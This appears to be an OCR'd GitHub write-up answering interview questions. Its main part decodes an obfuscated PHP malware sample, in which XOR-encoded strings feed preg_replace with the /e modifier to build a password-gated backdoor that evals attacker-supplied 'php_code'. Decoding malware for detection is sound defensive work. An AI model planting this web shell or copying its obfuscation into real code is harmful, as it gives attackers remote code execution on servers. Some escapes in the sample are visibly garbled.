 For additional security we should probably bump the email up against the user database to make sure it's valid. I have a bit of
trepidation about calling an email-sending bash script from PHP, so I would probably not set it up this way to begin with, but 
with appropriate security protocols it should be fine. (My preference would be to call a PHP class that facilitates SMTP through
an actual email account, which would require password validation and would permit outbound spam screening. Any non-email functions
in notifynew.sh could still be handled by calling that script. This has the benefit of preventing the server from acting as an open
or semi-open relay.)

<h2>3-PHP decoding</h2>

<b>Some times to write code to detect malware, we also need to be able to decode them. Can you decode this piece of text and let us know what it does? What would you do to automate decoding them when parsing a PHP file?

<pre><code>/*amOmMQfUYVN0OxwwRjomMCHT1A0KOZXoCl
2wjQHwPWkBI2lxexzlHpmH12gOgizxwrkV
INEsONk1AEozqvfS3WJZkp8aduIDGFvOS18hDhXDmC4S
kqvuFWaCx4x674BsHUiF2lmPoORhhF8Hws32FS
LrxIkz1sJZxBAaQpoiNLoKTa3MR9eM1q4ozedpNmEBnFb5uG
*/
//miBy10TC1A7ezb8fokkqNqHIaOlZhthJ
$IPwXsveV='p'. 'reg_replac'.'e'; $ivAqSMVn="rbjfxy6ilF1hhrbHIo3"^"\x5d\x1b\x22\x02\x283c9\x2b3y\x0c\x1b\x1a\x2e\x10\x04\x40V"; $IPwXsveV($ivAqSMVn, "P2aIsq04NK9Ymr8IIz6AuNiV8WclRl6hcVpKCoEPyDnbulj3ae4Lrchpy0RGkMnDhTNk8S1wVeNGFx0fR4r0VOpKN7QyI42qMFQKXG8skLyp9xLQr4QCH6MV2cJAWAqjF8udDrLo4AU3ygIfZZhgUu3MMBMjC3IHz3l4kwhdx3VmYeHx4pU"^"5D\x00\x25\x5bSYRf\x22J\x2a\x08\x06\x10\x15\x15\x5ei\x13\x30\x1f\x3c\x13k\x038K1\x04\x115JvVmcG\x284Ll2\x3eQ38v\x30\x30q\x1f\x268O\x13\x11\x17\x0fnKpSdO\x60\x2dX\x0a7\x05N2Wws\x7fOQ\x044V\x40UezAy\x2d\x072\x1a\x2d\x02\x0b\x14\x7eaxk\x7ea\x18\x1a\x18\x3f\x1c\x04\x11\x24\x10u\x2df\x14\x12\x 1ds\x1e\x02iD\x3a\x29\x27\x1e\x12\x05\x22\x5dR9m\x5bl\x14\x14\x24\x23R\x15O\x15\x3a\x7e\x05\x3a\x22\x04\x20v\x1e\x19\x 19j\x1a\x2bC\x16\x2b\x15W\x09\x136\x5eSD\x1dK\x3f\x19qLsXIR\x7c", "yHdPJUPGuHdshLXM");
</code></pre></b>

The first section (between /* and */) is a comment that won't be executed.  Likewise, the next line (beginning //) is a 
comment and won't be executed.  The next line assigns the function name <code>preg_replace</code> to variable <code>$IPwXsveV</code>. 
The next command uses the bitwise XOR (^) operator to assign a value to variable <code>$ivAqSMVn</code> that evaluates to 
<code>/yHdPJUPGuHdshLXM/e</code>. This is a Regex that includes the PHP-specific modifier <code>e</code>, which causes the resulting
string to run as PHP code. The next command calls <code>preg_replace</code> as a variable function, with the pattern as the value
of <code>$ivAqSMVn</code>, the subject as <code>yHdPJUPGuHdshLXM</code>, and the replace as another XOR result that evaluates to:

<code>eval("if(isset(\\$_REQUEST['ch']) && (md5(\\$_REQUEST['ch']) == '4c32d49d29497abfb2e3512c0ccd69e3') && isset(\\$_REQUEST['php_code'])) { eval(\\$_REQUEST['php_code']); exit(); }")</code>

This command will run automatically.  <code>$_REQUEST</code> is a superglobal variable that includes the contents of 
<code>$_GET</code>, <code>$_POST</code>, and <code>$_COOKIE</code>.  This allows the script to be called via GET or POST with 
a php_code payload that will execute as long as <code>$_GET['ch']</code> has a value that evaluates to an MD5 hash as specified 
above. That script would be able to execute malicious code.
